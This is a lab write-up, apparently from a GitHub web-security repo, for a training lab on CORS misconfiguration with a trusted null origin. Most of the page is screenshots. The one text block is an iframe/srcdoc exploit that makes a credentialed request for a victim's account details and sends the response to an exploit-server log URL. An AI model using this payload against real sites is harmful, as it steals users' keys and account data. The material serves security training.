 # Lab: CORS vulnerability with trusted null origin

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0b051784-8eb8-4bd0-8204-ba326489a426)

## Solution

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/bfb2632c-0b16-4fef-b5aa-9a71ffdf3f3d)
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/261496e2-a890-4581-81db-aacb6209612c)
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/80d8b0c1-0ec9-47f5-ae96-64403b6e0d2d)
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4420bda9-9c0b-4bb5-984f-a49fe23afce2)

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d12b68f1-31d7-4c29-85eb-9c2901f2181e)
